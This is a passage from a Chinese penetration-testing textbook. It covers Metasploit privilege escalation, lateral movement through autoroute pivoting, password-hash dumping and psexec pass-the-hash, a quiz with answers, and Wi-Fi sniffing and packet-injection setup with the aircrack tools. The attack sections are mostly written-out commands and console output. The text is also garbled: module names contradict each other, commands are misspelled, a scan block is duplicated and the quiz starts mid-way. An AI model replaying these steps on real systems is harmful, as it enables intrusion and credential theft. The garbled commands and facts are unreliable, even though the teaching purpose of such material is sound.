由于对系统的访问有限，利用当前用户的目录是上传文件的可靠选项。上传漏洞后，需要在目标系统中执行它。但在之前，需要理解它如何赋予我们系统权限。你可以阅读源码或任何文档。某些漏洞生成 `shell` 后只需运行 `run` 命令。使用以下命令在 `Windows` 系统中执行漏洞：`execute -f "uploaded file to be executed" -i`

`-f` 参数定义可执行文件，`-i` 允许我们与运行的程序（通道）进行交互。在只能运行命令的情况下，最好的做法是运行 `C:\Windows\System32\cmd.exe`，这将为我们提供 `shell`。

# 使用 Metasploit 框架中的内置本地漏洞进行提升

`Metasploit` 框架中的某些漏洞提供了在现有 `meterpreter` 会话上运行本地漏洞的选项。当 `meterpreter` 会话打开时，可以使用 `background` 命令访问 `Metasploit` 控制台。可以使用以下命令列出活动会话：`sessions -1`

```
msf exploit(misc/exec) > sessions -1

Active sessions
============
Id  Name                Information
------------------------------------
1   meterpreter x64/linux uid=1, gid=1, egid=1
```

图 7.40: 列出现有的 `Metasploit` 会话

它带回到控制台，可以使用命令 `sessions -i 'sessionid'` 返回 `meterpreter` 会话。在这种情况下，它看起来是 `sessions -i 1`，因为 `1` 是我们在图 7.40 中找到的会话 ID。`Metasploit` 还有 `Local Exploit Suggester`，可以帮助我们为目标系统寻找合适的本地漏洞。图 7.41 显示了在现有会话上运行 `Metasploit Local Exploit Suggester` 需要的命令：


图 7.41: 在现有会话上运行 `Metasploit Exploit Suggester`

以下是在现有会话上运行 `Metasploit Exploit Suggester` 的命令：

`use post/multi/recon/local_exploit_sgester`

`set session 1`

假设使用 `Metasploit Local Exploit Suggester`，我们发现目标容易以下本地漏洞：`exploit/linux/local/glibc_origin_expansion_priv_esc`

我们必须执行以下命令在特定会话上运行：`use exploit/linux/local/glibc_id_audit_dso_load_priv_esc`，将 `session` 设置为会话 ID，然后就可以运行本地漏洞进行权限提升：

```
msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > set session 1

session => 1
msf exploit(linux/local/glibc_ld_audit_dso_load_priv_esc) > run
```

图 7.42: 为本地漏洞设置 `session` 并运行

一旦运行了漏洞，我们应该获得了系统的 `root` 权限。你可以使用 `id` 命令进行验证。

# 横向移动

横向移动（也称为跳板）是一种独特的技术，利用一个实例（也被描述为据点或脚点）在网络内部移动。本质上，它是利用第一个被攻破的系统来渗透同一或不同网络中不可访问的系统。在我们的环境中，当我们连接到 `meterpreter` 会话时，运行 `ipconfig` 发现被利用的系统是双接口的：

`192.168.1.2`

`10.1.13.3`

接口及其相关细节见图 7.43。


图 7.43: `meterpreter` 会话中的 `ipconfig` 命令

让我们来看示例网络拓图。到目前，我们已经获得了对 `192.168.1.2` 的访问：


图 7.44：目标网络拓扑

从渗透测试来看，我们无法直接访问 `10.1.13.*` 网络。我们需要利用最近发现的信息并攻击这个额外的网络。`Metasploit` 拥有一个 `autoute` `meterpreter` 脚本，它可以允许我们通过初始攻破的网络攻击这个第二个网络。该脚本的执行方式如图 7.45 所示：

```
meterpreter > run autoute -p -s subnet -n mask
* Examples:
  run autoute -s 10.1.10.0 -255.255.255.0 # 向 10.10.10.0/255.255.255.0 添加路由
  run autoute -s 10.10.10.1 -255.255.255.0 # 默认为 10.10.10.0/255.255.255.0
  run autoute -p # CIDR 表示法也是清晰的
  run autoute -v 10.10.10.1 # 打印活动路由表
  使用 "route" 和 "ifconfig" meterpreter 命令学习可用路由
meterpreter > run autoute -s 10.1.13.0/255
* 向 10.1.13.0/255 添加路由
  正在通过 192.168.1.201 向 10.1.13.0/255 添加路由
  使用 -p 选项出所有活动路由
meterpreter > run autoute -p
```

活动路由表

| 子网 | 子网掩码 | 网关 |

| --- | --- | --- |

| 10.1.13.0 | 255.255.255.0 | Session 1 |

图 7.45：`Meterpreter autoute` 命令

考虑到这是一个加入了 `Windows` 的系统，如果我们能获得管理员密码或哈希值，我们应该能够访问同一网络上的其他系统。现在我们已经添加了额外的路由，我们将使用 "`run hashdump`" 命令从本地计算机转储密码哈希。这些哈希值稍后可以用于密码破解尝试，目标是获取额外的用户名和密码。注意，这仅在内存中是可能的。之后，系统已加入。密码哈希已从内存中转储。我们将通过按下 `Ctrl + Z` 将我们的 `meterpreter` 会话置于后台。


图 7.46：`Meterpreter` 导出哈希

现在，我们必须找出发现的这个第二个网络上是否有其他系统。我们将使用基础 `TCP` 端口扫描器（使用 `metasploit` 辅助扫描模块 `auxiliary/scanner/portscan/tcp`）来查找端口 `139` 和 `445`，如图 7.47 所示


```
msf exploit(ms17_010_eternalblue) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options

Module options:

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| FILTER | | no | 用于捕获流量的过滤字符串 |
| INTERFACE | | no | 接口名称 |
| PCAPFILE | | no | 要处理的 PCAP 捕获文件名 |
| PORTS | 1-10000 | yes | 要扫描的端口 (25-85, 110-990) |
| RHOSTS | 65535 | yes | 目标地址或 CIDR 标识符 |
| THREADS | 1 | yes | 并发线程数
| TIMEOUT | 1000 | no | 套接字连接超时时间（毫秒） |
| VERBOSE | | no | 显示详细输出 |

msf auxiliary(tcp) > set RHOSTS 10.1.13.10/24
msf auxiliary(tcp) > set PORTS 139,445
msf auxiliary(tcp) > run

+   * 10.1.13.9:23 - TCP OPEN
* 10.1.13.9:445 - TCP OPEN
* 10.1.13.2:23 - TCP OPENED
* 10.1.13.2:445 - TCP OPEN
* Scanned 256/256 hosts (100% complete)
* Auxiliary module, execution completed
msf auxiliary(tcp)*
```


我们在该网络上发现了几台辅助机器，其 139 和 445 端口是开启的：

```
msf exploit(ms17_010_eternalblue) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options

Module options:

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| CONCURRENCY | 10 | yes | 每个主机检查的并发端口数 |
| FILTER | | no | 用于捕获流量的过滤字符串 |
| INTERFACE | | no | 接口名称 |
| PCAPFILE | | no | 要处理的 PCAP 捕获文件名 |
| PORTS | 1-10000 | yes | 要扫描的端口 (25-85, 110-990) |
| RHOSTS | 65535 | yes | 目标地址或 CIDR 标识符 |
| THREADS | 1 | yes | 并发线程数 |
| TIMEOUT | 1000 | no | 套接字连接超时时间（毫秒） |
| VERBOSE | | no | 显示详细输出 |

msf auxiliary(tcp) > set RHOSTS 10.1.13.10/24
msf auxiliary(tcp) > set PORTS 139,445
msf auxiliary(tcp) > run

+   * 10.1.13.9:23 - TCP OPEN
* 10.1.13.9:445 - TCP OPEN
* 10.1.13.2:23 - TCP OPEN
* 10.1.13.2:445 - TCP OPEN
* Scanned 256/256 hosts (100% complete)
* Auxiliary module, execution completed
msf auxiliary(tcp)*
```


现在，我们将利用密码哈希配合 `windows/smb/psexec`。Metasploit 的 `psexec` 模块经常被渗透人员用于访问已知凭据的系统。Metasploit `psexec` 模块的一个很棒的功能是允许我们输入目标系统的密码，或者直接指定哈希值。不需要破解密码即可访问系统。因此，我们将使用转储的密码，因为它应该适用于所有系统：

```
msf auxiliary(tcp) > use exploit/smb/psexec
msf exploit(psexec) > show options

Module options:

| Name | Current Setting | Required | Description |
|---|---|---|---|
| RHOST | | yes | 目标地址 |
| RPORT | 445 | yes | 设置 SMB 服务 |
| SMBDomain | WORKGROUP | no | 用于认证的 Windows 域 |
| SMBPass | | no | 指定用户的密码 |
| SMBUser | | no | 用于认证的用户名 |

Exploit target:

| Id | Name |
|---|---|
| 0 | Automatic |

```

```
msf exploit(psexec) > set RHOST 10.1.13.12

RHOST => 10.1.13.12

msf exploit(psexec) > set SMBUser

SMBUser => Administrator

msf exploit(psexec) > set SMBPass 7fcbeaa

SMBPass => 7fcbeaa

msf exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp

PAYLOAD => windows/meterpreter/bind_tcp

msf exploit(psexec) > exploit
```

图 7.49：Meterpreter 配置横向移动利用漏洞

现在我们已经为目标主机、用户名、密码哈希设置了漏洞，我们将直接运行该漏洞：

```
msf exploit(psexec) > exploit

* Connecting to the server...

* Started bind handler

* Authenticating on 10.1.13.2 as user 'Administrator'

* Uploading payload...

* Created service 'Team.exe'

* Binding to handle...

* Running service...

* Obtaining a service manager...

* Creating a new service...

* Closing service handle...

* Opening service...

* Starting the service...

* Removing the service...

* Closing service handle...

* Deleting Team.exe...

* Service started (7406 bytes)

* Meter session 2 opened (192.168.1.2:33 -> 10.1.13.2:4444) at 5 Sat Oct 06 11:42
```

图 7.50：运行漏洞

我们的攻击成功了！在前面的输出中，你可以看到我们已经通过现有的 192.168.1.201 的 meterpreter 会话连接到 10.1.13.2。在我们新攻破机器上运行 `ipconfig` 显示我们已经到达了一个通常无法访问的系统：

```
meterpreter > ipconfig

Ethernet adapter VMware Adapter VMnet8:

Hardware MAC : 00-50-56-C0-08

IP Address : 10.1.13.2

Netmask : 255.255.255.0

MS TCP Loopback interface

Hardware MAC : 00:00:00:00:00

IP Address : 127.0.0.1

Netmask : 255.0.0.0

meterpreter >
```


图 7.51：检查你的 meterpreter 会话

- A. 公司电话号码
- B. 公司地理位置
- C. 公司办公位置
- D. Web 服务器中的开放端口

- 4. Shodan 工具可以帮助渗透测试人员查找 Web 服务器版本的详细信息。

- A. 正确
- B. 错误

- 5. TXT DNS 记录将空间名称映射到其相关的 DNS 服务器。

- A. 正确
- B. 错误

- 6. TCP 头部可以包含共 17 个标志位。

- A. 正确
- B. 错误

- 7. FIN 标志位告诉远程系统通信即将结束。

- A. 正确
- B. 错误

- 8. TCP SYN 扫描背后的原理是 TCP 三次握手。

- A. 正确
- B. 错误

- 9. NMAP 不支持 UDP 端口扫描。

- A. 正确
- B. 错误

- 10. Metasploit 的 `getsystem` 命令是任何任何系统中提升权限最可靠的方法。

- A. 正确
- B. 错误

## 答案

- 1. B
- 2. B
- 3. B 和 D
- 4. B
- 5. B
- 6. B
- 7. A
- 8. A
- 9. B
- 10. B

## 问题

- 1. 解释 TCP 三次握手。
- 2. 解释 TCP 连接是如何终止的。
- 3. 解释 TCP 和 UDP 的区别。
- 4. 解释 MITM（中间人）攻击是如何运作的。
- 5. 解释 ARP。
- 6. 解释 SSL 握手是如何工作的。
- 7. 解释密码破解是如何工作的。
- 8. 什么是路由追踪（trace route）？它是如何工作的？
- 9. 什么是 ping？
- 10. 什么是 DNS？它是如何工作的？
- 11. 外部渗透和内部渗透测试有什么区别？
- 12. 什么是 TCP SYN 扫描？
- 13. 什么是 TCP 连接扫描（connect scan）？
- 14. 什么是密码学？
- 15. 什么是对称加密和非对称加密？
- 16. 你如何对网络进行暴力攻击？
- 17. 什么是权限提升？你如何执行这种攻击？

- 18. 什么是数据包的生存时间（time to live）？
- 19. 什么是路由表？
- 20. 什么是状态检测防火墙和无状态防火墙？
- 21. IDS（入侵检测系统）和 IPS（入侵防止系统）的区别是什么？
- 22. 什么是哈希（hashing）？
- 23. 哈希和编码的区别是什么？
- 24. Nessus 扫描器是如何发现开放服务的？
- 25. 端口扫描器是如何工作的？
- 26. 什么是 CVE 和 CVSS，你如何在网上找到这些信息？
- 27. 漏洞（vulnerability）和攻击利用（exploit）的区别是什么？
- 28. 什么是操作系统指纹识别（fingerprinting）？
- 29. 什么是被动指纹识别？可以使用什么工具来实现？
- 30. 什么是 Banner 提取（banner grabbing）？
- 31. 解释数据如何通过 OSI 7 层进行传输？
- 32. 什么是 DMZ（非军事化区）？
- 33. 无状态防火墙和状态检测防火墙的主要区别是什么？
- 34. Bind（绑定）和反向 Shell（reverse shell）的区别是什么？
- 35. 解释 Linux 中常用的权限提升技术。
- 36. 解释 Windows 中常用的权限提升技术。
- 37. LM 哈希和 NTLM 哈希的区别是什么？
- 38. 什么是半开扫描（half open Scan）？
- 39. 什么是 FTP 特权端口反射扫描（Privileged Port Bounce Scan）？
- 40. 什么是 DNS 缓存嗅探（snooping）？
- 41. 加密（encryption）和哈希的区别是什么？
- 42. 对称加密和非对称加密的区别是什么？
- 43. 什么是哈希？它是如何工作的？
- 44. 什么是加密？它是如何工作的？
- 45. 什么是数字签名？它是如何工作的？
- 46. 什么是数字证书？它是如何工作的？
- 47. 什么是 PKI？它是如何工作的？

### WPA2 协议

它的创建是为了提供比 WPA 更强大的安全性。WPA2 使用高级加密标准 (AES)，该标准使用对称加密算法，使其足够坚固，能够抵抗暴力破解攻击。

Wi-Fi 协议 WPA 和 WPA2 两个版本都可以以以下模式之一实现：

- 个人模式（使用预共享密钥 (PSK) 模式）：在这种工作模式下，用户或网络所有者在配置时会在无线路由器上定义加密密码（也称为口令）。然后，任何用户（客户端设备）在连接 Wi-Fi 网络时必须输入该密码。这通常适用于家庭网络。

- 企业模式（使用可扩展身份验证协议 (EAP) 模式）：这种工作模式提供了业务或企业无线网络所需的安全性。与个人模式相比，企业模式的设置要复杂得多。这种模式允许无线网络管理员完全控制 Wi-Fi 网络。合法用户被提供连接网络所需的凭据。管理员允许随时时候操纵这些凭据。企业模式使用 EAP，该协议用于受保护的网络中，以提供一种安全的方式提交身份信息（例如凭据）以进行网络身份验证。EAP 可以与多种身份验证方法集成，例如证书、智能卡、令牌、OTP（动态密码）和公钥加密。

### WPA3 协议

它于 2018 年提出，根据官方 Wi-Fi 网站 https://www.wi-fi.org/WPA3，它提供了高级的安全协议。WPA3 标准还将预共享密钥 (PSK) 交换替换为等等同步认证 (SAE) 交换，这种方法最初引入于 IEEE 802.11，在私有模式下实现了额外的安全首次密钥交换并提高了安全性。尽管 Wi-Fi 联盟声称 WPA3 将减少安全问题，但 WPA3 攻击从 2019 年就开始了。2019 年公开的最流行的攻击是“龙血”（Dragon blood）攻击。

## 理解接入点与客户端如何通信

在本节中，我们将尝试通过深入研究每个阶段来理解 Wi-Fi 客户端是如何连接到无线网络的。图 8.3 展示了 Wi-Fi 接入点与客户端之间的高层通信：


图 8.3：Wi-Fi 手握

### 探测 (Probe)

在任何 802.11 认证和关联过程开始时，客户端首先尝试寻找所有可用频率并寻找要加入的 SSID。SSID（也称为服务集标识符）无非就是你的无线网络名称，也称为网络 ID。想要加入接入点的客户端首先发送一个探测请求帧，该帧包含支持的数据速率等详细信息，如图 8.3 所示。之后，区域内可用的接入点会返回包含 SSID 和 BSSID 的探测响应（probe responses）。在这里，SSID 是接入点名称，而 BSSID 是接入点的 MAC 地址。

一旦发现者发现了与其配置相匹配的 SSID，它将向接入点发送一个认证请求。需要注意的是，在此阶段交换的认证请求和认证响应包不提供任何形式的加密。在这里，认证请求和响应的交换仅用于接入点注册客户端的 MAC 地址。当任何接入点中启用 MAC 过滤时，此信息将用于根据其 MAC 地址过滤客户端。

图 8.4 显示了捕获的探测响应帧：

| 序号 | 源 | 目的地 | 协议 | 长度 | 信道 | 信号强度 | 帧类型 | 数据速率 |
|---|---|---|---|---|---|---|---|---|
| 1 | 21:00:00 | Apple..:d0:30:c8 | 802.11 | 156 | 6 | -44 dbm | 探测请求 | 6 |

- 帧 1：156 字节线缆（1248 位），155 字节捕获（1240 位）
- 信标头 (Beacon Header)，长度 25
- 802.11 链路信息
- 802.11 探测消息，标志：....C
- 802.11 无线局域网
- 参数（109 字节）
- 5010 参数集：SSID
- 支持速率：6, 12, 16, 24, 36, 48, 54
- HT 能力 (802.11n01:10)
- HT 能力（4 字节）
- HT 互操作
- HT 能力
- 厂商特定：Apple, Inc.
- 厂商特定：Microsoft Corp.; 未知：8
- 厂商特定：宽带

图 8.4：探测响应示例帧

图 8.5 显示了捕获的探测响应帧：

| 序号 | 源 | 目的地 | 协议 | 长度 | 信道 | 信号强度 | 帧类型 | 数据速率 | SSID |
|---|---|---|---|---|---|---|---|---|---|
| 1 | 21:10:58 | ec:55:d2:f7:ec:c4 | 802.11 | 419 | 6 | -35 dbm | 探测响应 | 24.8 | |

- 帧 1：419 字节线缆（3352 位），419 字节捕获（3352 位）
- 信标头 (Beacon Header)，长度 25
- 802.11 链路信息
- 802.11 探测响应

图 8.5：探测响应示例帧

关联请求：客户端将此请求发送到接入点，表示客户端和关联现在都准备好相互进行通信：

| 序号 | 时间 | 源 | 目的地 | 协议 | 长度 | 信道 | 信号强度 | 帧类型 | 数据传输率 |
|---|---|---|---|---|---|---|---|---|---|
| 1 | 21:00:13... | OpenMesh_21:00:09 | | 802.11 | 191 | 36 | -52 dBm | 信标 | 6.9 |
| 2 | 21:00:11... | OpenMesh_21:00:98 | Apple_13:47:05 | 802.11 | 128 | 36 | -52 dBm | 探探测请求 | 3.6 |
| 3 | 21:00:11... | OpenMesh_21:00:98 | Apple_13:47:05 | 802.11 | 128 | 36 | -52 dBm | 数据 | 3.6 |
| 4 | 21:00:11... | OpenMesh_21:00:98 | | 802.11 | 128 | 36 | -52 dBm | 认证 | 3.6 |
| 7 | 21:08:11... | Apple_10:47:05 | OpenMesh_21:00:98 | | 160 | 36 | -29 dBm | 关联请求 | 6.8 |

- 帧 7：线路上 147 字节，捕获到 168 字节的
- 802.11 无电信息
- IEEE 802.11 关联响应，标志位:...
- IEEE 802.11 无线局域网
- 固定参数 (6)
  - 能力信息：\x0001
  - 状态码：成功 (\x0000)
  - AID：关联 ID: \x0001
- 标记参数 (88)
  - 标签 228 参数元素：0-NET
  - 支持的速率：6, 9, 12, 18, 24(88), 36, 48, 54, (Mbit/sec)
  - 功率能力混合：2, Max-32
  - 支持的速率
  - HT 信息
  - HT 能力：(802.11n:01.18)
  - HT 信息：(802.11n:01.18)
  - 厂商特定：Microsoft Corp.：WMNHT: 信息元素

图 8.8：示例关联请求帧

关联响应：接入点向客户端发送响应，如图 8.9 所示。

| 序号 | 时间 | 源 | 目的地 | 协议 | 长度 | 信道 | 信号强度 | 帧类型 | 数据传输率 |
|---|---|---|---|---|---|---|---|---|---|
| 9 | 21:00:11... | OpenMesh_21:00:98 | Apple_13:47:05 | 802.11 | 147 | 36 | -52 dBm | 其他管理帧 | 6.0 |

- 帧 9：线路上 147 字节（1176 位），捕获到 147 字节（1176 位）
- 802.11 无电信息
- IEEE 802.11 无线局域网
- 固定参数 (6)
  - 能力信息：\x0001
  - 状态码：成功 (\x0000)
  - AID：关联 ID: \x0001
- 标记参数 (88)
  - 支持的速率：6, 9, 12, 18, 24(88), 36, 48, 54, (Mbit/sec)
  - HT 能力：(802.11n:01.18)
  - HT 信息：(802.11n:01.18)
  - 厂商特定：Microsoft Corp.：WMNHT: 参数元素

图 8.9：示例关联响应帧

完成这些主要步骤后，通常会开始数据交换。

## 无线实验室搭建

在第 3 章“为渗透测试准备你的实验室”中，我们已经在测试系统中安装了 Kali Linux。大多数需要的工具和驱动程序随 Kali Linux 一起发布。图 8.10 显示了我们将用于测试和模拟某些 Wi-Fi 攻击的基础型无线实验室。请注意，攻击不属于别人的 Wi-Fi 是非法的；要求不符合道德规范的学生建立自己的环境来练习本章演示的攻击：


## 硬件要求

我们需要以下硬件来搭建无线实验室：

- 一个具有数据包注入能力的无线适配器：取决于你笔记本电脑的无线网卡，你可能需要一个支持数据包注入和数据包嗅探的 USB Wi-Fi 卡，Kali 支持这些功能。我们将使用 Edimax EW-7811，这是一个性能良好的微型 Wi-Fi 适配器。图 8.10 显示了使用 `airmon-ng` 查看无线网卡的详情：

```


`root@kali~$` `airmon-ng`

Interface mode  Driver  Chip

`wlan0`            80211       Realtek RTL8188EUS

```
图 8.10：查看无线网卡详情
```

- 廉价 Wi-Fi 适配器：Edimax EW-7811 (https://www.amazon.com/dp/B003S6S8S0) 这种 Kali 自带了驱动程序。
- 一个支持不同协议的接入点：测试工作

一旦将 Wi-Fi 适配器插入 Kali，并通过 `ifconfig` 就可以看到它的工作状态（如图 8.12）：


图 8.12：`ifconfig` 输出

在之前的截图中，`wlan0` 是无线接口。输入 `ifconfig wlan0 up` 启用接口。然后通过 `ifconfig wlan0` 查看实际状态（如图 8.13）：

```
root@kali:~ ifconfig wlan0

wlan0: flags=BROADCAST,MULTICAST,UP,RUNNING  mtu=1500

  ether aa:95:e6:3a:fc:60  txlen:100

  RX packets:0  bytes:0    errors 0  dropped 0 coll 0

  TX packets:0  bytes:0    errors 0  overruns 0 frame 0
```
图 8.13：查看接口状态

让我们找出周围的无线网络。为了找到它们，我们使用 `iwlist wlan0 scanning` 命令，你应该 Wi-Fi 网络列表（如图 8.14）：

```
kali@kali~$ iwlist wlan0 scanning

  Cell 0 - Address: 04:95:e6:3a:fc:60

    Channel:6

    Frequency:2.47 GHz (Channel 6)

    Quality=70/70 Signal level=-30dBm

    Encryption:none

    ESSID="Debashish wifi"

    Bit Rates:1 Mb/s; 2 Mb/s; 5.5 Mb/s; 11 Mb/s; 6 Mb/s

      9 Mb/s; 12 Mb/s; 18 Mb/s

      24 Mb/s; 36 Mb/s; 48 Mb/s; 54 Mb/s

    Mode:Master
```
图 8.14：从 Kali 扫描 Wi-Fi

## 嗅探无线数据包的艺术

记住，如果我们想要入侵 Wi-Fi 网络，我们需要在空中捕获之前看到的握手包。这个握手指的是受害者计算机与无线网络之间的连接。

```bash
ifconfig wlan0 down

airmon-ng check kill

iwconfig wlan0 mode monitor

ifconfig wlan0 up
```


让我们来理解一下这里正在的操作：

- 关闭无线接口 (`wlan0`)
- 杀死所有可能正在使用无线接口的进程。
- 将模式从管理模式（managed mode）更改为监听模式（monitoring mode）。
- 重新开启无线接口。

执行这些命令后，我们应该确认适配器的模式已更改为监听模式（Monitor），如图 8.16 所示：


图 8.16：验证 WLAN 卡已启用监听模式

## 嗅探无线数据

一旦更改了 Wi-Fi 接口的模式，让我们尝试在空中嗅探数据包。为此，我们在 Kali Linux 终端中输入 `sudo wireshark` 来启动 Wireshark：

| 接口 | 流量 | 链路层头部 | 混杂模式捕获 (i Buffer (M)) 监听 |
|---|---|---|---|---|---|
| eth0 | | Ethernet | | 默认 | |
| wlan0 | | Ethernet (header) Linux cooked v3 | 默认 | |
| Loopback: lo | | Ethernet | | 默认 2 |

图 8.17：选择 WLAN 接口

然后我们将选择 `wlan0` 来捕获数据包，如图 8.18 所示：

### 从 wlan0 捕获

文件 编辑 视图 捕获 分析 统计数据 工具 帮助

应用显示过滤器 ... <Ctrl+F>

| 序号 | 时间 | 源 | 目的 | 协议 | 长度 | 信息 |
|---|---|---|---|---|---|---|
| 34 | 5.42691618 | TendaTec_3a:fc:60 | 广播 | 802.11 | 311 | Beacon 帧, S |
| 35 | 5.52922666 | TendaTec_3a:fc:60 | 广播 | 802.11 | 311 | Beacon 帧, S |
| 36 | 5.63163287 | TendaTec_3a:fc:60 | 广播 | 802.11 | 311 | Beacon 帧, S |
| 37 | 5.73406132 | TendaTec_3a:fc:60 | 广播 | 802.11 | 311 | Beacon 帧, S |
| 38 | 5.83649275 | TendaTec_3a:fc:60 | 广播 | 802.11 | 311 | Beacon 帧, S |

图 8.18：在 Wireshark 中查看数据包

这些是你的无线适配器从空中嗅探的数据包。我们可以看到我们正在接收 Beacon（信标）数据包。Beacon 帧通常用于接入点通过服务广播其特征。Beacon 数据包中的信息被想要连接到网络的客户端以及已经关联到网络的客户端使用。

Wireshark 有时会变得有点复杂；对于一个繁忙的无线网络，你可能会捕获到海量的数据包。因此，能够深入筛选到我们感兴趣的数据包至关重要。这里是一些重要的数据流过滤器。

要查看所有管理帧，我们在 Wireshark 中添加以下过滤器：`wlan.fc.type == 0`

无线管理帧看起来类似于图 8.19 所示：

- IEEE 802.11 无线管理
  - 固定参数 (12 字节)
  - 标记参数 (245 字节)
    - Tag: SSID 参数集: Debasis wifi
    - Tag: 支持的速率: 1(B), 2(B), 5.5(B), 11(B), 6, 9, 12, 18, [Mbit/sec]
    - Tag: ES 参数集: 当前信道: 1
    - Tag: 流量指示映射图 (TIM): DTIM 1 of 1 位位图
    - Tag: ERP 信息
    - Tag: 扩展支持速率 24, 36, 48, 54, [Mbit/sec]
    - Tag: HT 能力 (802.11n D1.10)
    - Tag: HT 信息 (802.11n D1.10)
    - Tag: 厂商特定: Microsoft Corp.: WPA 信息元素
    - Tag: RSN 信息
    - Tag: 厂商特定: Microsoft Corp.: WMM/WME: 参数元素

图 8.19：查看管理帧

- 要查看控制帧，我们在 Wireshark 中添加以下过滤器：`wlan.fc.type == 1`

- 要查看数据帧，我们在 Wireshark 中添加以下过滤器：`wlan.fc.type == 2`。

无线数据帧如图 8.20 所示：

| | | | | | | |
|---|---|---|---|---|---|---|
| 15 | 25.25324628 | Intelor_a7:65.2b | 广播 | ..82.11 | 100 Data, SN:151, FN |
| 16 | 26.35493635 | Tendac_Ja3:fc:60 | 广播 | ..82.11 | 311 Beacon 帧, SN=1 |

图 8.20：查看数据帧

> 帧 15: 线路上的 108 字节 (84 位), 在接口 wlan 上捕获的 108 字节 (84 位), id 0
> 头部，长度: 26
> 802.11 射信息
> 类型/子类型: 数据 (0x026)
> 帧控制字段: 0x804
> 0000 0000 0000 0000 : 持续: 0 微秒
> 接收地址: 广播 (ff:ff:ff:ff)
> 发送者地址: Tendac_Ja3:fc:60 (a5:06:a3:60)
> 目的地址: 广播 (ff:ff:ff:ff)
> 源地址: Intelor_a7:05:2b (44:03:2c:a5:2b)
> BSS ID: Tendac_Ja3:fc:60 (94:06:a3:60)
> STA 地址: 广播 (ff:ff:ff:ff)
> 分片数: 0

此链接有一个关于 Wireshark 过滤器的优秀速查表：https://semionworks.com/wp-content/uploads/2021/wireshark_8021_filters.pdf

## 包注入

包注入是一种通过生成看似属于常规流的自定义数据包来篡改几乎网络的方法。包注入方法允许第三方拦截发送者和接收者的数据包。这通常会导致访问受限的服务或协议。包注入通常用于中间人攻击。

为了测试包注入，我们需要切换到监听模式。我们已经将网卡设置为监听模式，让我们测试包注入。我们将使用名为 `airplay-ng` 的工具；运行此工具的命令如下：

如果你看到“Injection is working!”图 8.21），恭喜！你的 Wi-Fi 卡能够对目标网络进行包注入：

```bash
sudo airplay-ng wlan0
```

尝试广播请求...

无响应...

尝试直接请求...

找到 AP: 04:95:E6:3A:FC:60 - 信道: 6 'Debasish wifi'

Ping (最小/平均/最大): 727ms/279ms/903ms 功率: -16.00 100%


图 8.21：包注入

## 嗅探目标数据包

由于我们在无线接口上允许监听模式，我们能够捕获范围内发送的所有 Wi-Fi 数据包，即使数据包没有路由到我们的系统。我们需要一个可以捕获这些数据包的程序。我们将使用的程序是 `airodump-ng`，它在监听模式下让我们查看周围所有的无线网络并显示有关它们的 MAC 地址、加密、连接客户端等信息。

要使用 `airodump-ng` 工具开始嗅探数据包，输入 `airodump-ng` 后跟监听模式下的接口，如下所示：

| 信道 | 间隔 | BSSID | 站点 | 功率 | 丢失 | #Data | #s | 加密 | 认证 |
|---|---|---|---|---|---|---|---|---|---|
| 4 | 30 s | 04:95:E6:3A:FC:60 | (未关联) | -21 | 0 | 127 | 270 | WPA2 CCMP | Debasish wifi |
| 6 | 30 s | 04:95:E6:3A:FC:60 | (未关联) | -21 | 0 | 12 | 12 | WPA2 PSK | Debasish wifi |
| 6 | 30 s | 04:95:E6:3A:FC:60 | (未关联) | -35 | 0 | 1 | 9 | | |
| 6 | 30 s | 04:95:E6:3A:FC:60 | (未关联) | -21 | 0 | 1-1 | 23 | EAPOL | Debasish wifi |

图 8.22：使用 airmon-ng 嗅探 WLAN

我们在终端中看到了很多内容（图 8.22）。让我们将其拆开来更好地理解它们。除非你按下 `CTRL + C` 停止，否则此 `airodump-ng` 程序将继续运行。

让我们理解结果：

- **SSID**：显示目标网络的 MAC 地址 (`04:95:E6:3A:FC:60`)。
- **PWR**：显示信号强度。
- **Beacons**：如前，这些是任何 Wi-Fi 网络广播其存在的帧。
- **#Data**：显示数据包数量或数据帧数量。
- **#s**：显示过去 10 秒内收集的数据包数量。
- **CH**：显示网络工作的信道。
- **MB**：显示网络支持的最大速度。
- **ENC**：显示网络使用的加密；可以是 WEP、OPN 或 WPA2。
- **CIPHER**：显示网络使用的密码。
- **AUTH**：显示网络使用的认证。
- **SSID**：显示网络名称。

## 使用 airodump-ng 嗅探特定目标

在这一步中，我们将运行 `airodump-ng` 来查看连接到特定网络的所有设备，并获取它们的更多信息。当我们有一个目标网络时，在特定网络上运行 `airodump-ng` 比运行我们周围的所有网络更有帮助。因此，我们的目标是 Debasish Wi-Fi。让我们嗅探它并获取它的更多信息。

命令如下：

```bash
airodump-ng -bssid [目标网络 MAC 地址] -channel [目标使用的信道] [ 接口名称 ]
```

它看起来像：

```bash
airodump-ng -bssid 04:95:E6:3A:FC:60 -channel 6 wlan0
```

输出看起来 own图 8.23：

```
kali@kali: ~ kali@kali: ~ 

CH 0 ] Elapsed: 12 s ] [2021-12-18 09:54

BSSID PWR RXQ Beacons #Data, #s CH MB ENCIPHER AUTH ESSID

04:95:E6:3A:FC:60 -20 81 126 1 0 6 270 WPA2 CCMP PSK Debasis wif

BSSID STATION PWR Rate Lost Frames Notes Probes

04:95:E6:3A:FC:60 48:04:C5:96:90 -65 0 - 1 1

04:95:E6:3A:FC:60 56:22:CB:A7:7A -21 0 - 1 89 4

04:95:E6:3A:FC:60 73:A5:E8:F1:B8 -59 0 - 1 1
```

图 8.23: 仅针对我们的接入点嗅获数据

让我们尝试理解控制台输出（图 8.23）：

- `BSSID`: 显示目标网络的 MAC 地址。
- `STATION`: 显示连接到此网络的设备数量。
- `PWR`: 显示每个设备的信号强度。
- `Rate`: 显示传输速度。
- `Lost`: 显示数据丢包情况（如果有）。
- `Frames`: 显示我们捕获的帧数。

我们如何在 Wireshark 中过滤这些内容？要查看我们接入点的数据包，请在过滤器中添加以下内容：
`wlan.bssid == 04:95:E6:3A:FC:60 && wlan.fc.type_subtype == 0x0`

其中 `04:95:E6:3A:FC:60` 是我们目标网络的 MAC 地址。

## 针对无线网络的常见攻击

到目前为止，你已经对无线网络有了基本的了解，并配置了执行对任何无线网络进行攻击所需的软件和硬件。在本节中，你将学习一些针对无线网络最常见的攻击。

### MAC 欺骗攻击

